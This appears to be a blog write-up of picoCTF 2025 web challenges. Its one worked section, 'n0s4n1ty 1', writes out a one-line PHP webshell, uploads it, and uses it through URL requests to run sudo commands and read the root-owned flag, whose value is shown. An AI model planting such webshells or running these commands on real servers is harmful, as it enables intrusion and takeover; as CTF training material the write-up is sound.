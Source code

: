```yaml
---
title: "picoCTF 2025 web exploitation write-up"
date: 2025-07-26
categories: [CTF]
tags: [picoCTF2025]
TocOpen: false
---
```


## 0x00 SSTI1

![SSTI1 Description](./SSTI1/image-1.png)

![SSTI1 flag](./SSTI1/image.png)

## 0x01 n0s4n1ty 1

先建立 webshell 檔案準備上傳

```shell
echo "<?php system($_GET['cmd']); ?>" > webshell.php
```

看一下 root 目錄的內容

```
http://standard-pizzas.picoctf.net:53645/uploads/webshell.php?cmd=ls%20/root
```

發現好像沒權限

Response:

```
Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL
```

回應是空的可能是沒權限，所以試試看使用 `sudo` 找一下 flag 在哪

```
http://standard-pizzas.picoctf.net:53645/uploads/webshell.php?cmd=sudo%20find%20/%20-name%20%22flag.txt%22
```

Response:

```
/root/flag.txt
```

嘗試把 flag 印出來

```
http://standard-pizzas.picoctf.net:53645/uploads/webshell.php?cmd=sudo%20cat%20/root/flag.txt
```

得到 flag

Response:

```shell
picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}
```

## 0x02 head-dump

## 0x03 Cookie Monster Secret Recipe
